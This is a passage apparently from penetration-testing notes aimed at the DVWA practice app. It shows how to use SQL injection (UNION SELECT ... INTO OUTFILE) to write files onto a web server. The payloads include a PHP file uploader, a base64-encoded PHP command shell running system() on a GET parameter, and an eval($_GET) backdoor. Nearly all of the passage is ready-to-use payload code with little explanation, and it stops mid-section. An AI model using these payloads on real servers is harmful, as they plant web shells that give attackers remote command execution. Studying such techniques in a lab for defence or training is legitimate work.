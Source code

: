 ```php
<?php if(isset($_POST['submit'])){$t='./';$f=$t.basename($_FILES['fileToUpload']['name']);if(move_uploaded_file($_FILES['fileToUpload']['tmp_name'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?> <!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0"><title>File Upload</title></head><body><h2>File Upload</h2><form action="<?=$_SERVER['PHP_SELF']?>" method="POST" enctype="multipart/form-data"><input type="file" name="fileToUpload" id="fileToUpload"><input type="submit" value="Upload" name="submit"></form></body></html>
```

SQL Query for reference.

```sql
SELECT '<?php if(isset($_POST[\'submit\'])){$t=\'./\';$f=$t.basename($_FILES[\'fileToUpload\'][\'name\']);if(move_uploaded_file($_FILES[\'fileToUpload\'][\'tmp_name\'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?>\n<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\"><title>File Upload</title></head><body><h2>File Upload</h2><form action=\"<?=$_SERVER[\'PHP_SELF\']?>\" method=\"POST\" enctype=\"multipart/form-data\"><input type=\"file\" name=\"fileToUpload\" id=\"fileToUpload\"><input type=\"submit\" value=\"Upload\" name=\"submit\"></form></body></html>' INTO OUTFILE '/path/to/uploader.php'
```

Convert it to SQLi exploit with **UNION SELECT**.

```sql
' UNION SELECT '<?php if(isset($_POST[\'submit\'])){$t=\'./\';$f=$t.basename($_FILES[\'fileToUpload\'][\'name\']);if(move_uploaded_file($_FILES[\'fileToUpload\'][\'tmp_name\'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?>\n<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\"><title>File Upload</title></head><body><h2>File Upload</h2><form action=\"<?=$_SERVER[\'PHP_SELF\']?>\" method=\"POST\" enctype=\"multipart/form-data\"><input type=\"file\" name=\"fileToUpload\" id=\"fileToUpload\"><input type=\"submit\" value=\"Upload\" name=\"submit\"></form></body></html>', NULL INTO OUTFILE '/var/www/html/dvwa/uploader.php'#
```

- **Base64 encoded**

```sql
' UNION SELECT FROM_BASE64("<base64_encoded>"), NULL INTO OUTFILE '/var/www/html/dvwa/file.php'#
```

```sql
$ echo "<?php \$cmd=\$_GET[\"cmd\"];system(\$cmd);?>" | base64
PD9waHAgJGNtZD0kX0dFVFsiY21kIl07c3lzdGVtKCRjbWQpOz8+Cg==

' UNION SELECT FROM_BASE64("PD9waHAgJGNtZD0kX0dFVFsiY21kIl07c3lzdGVtKCRjbWQpOz8+Cg=="), NULL INTO OUTFILE '/var/www/html/dvwa/shell.php'#
```

##### 2.2.5.1.3 - Evaluate PHP Code

```php
<?php eval($_GET[evaluate]); ?>
```

SQL Query for reference.

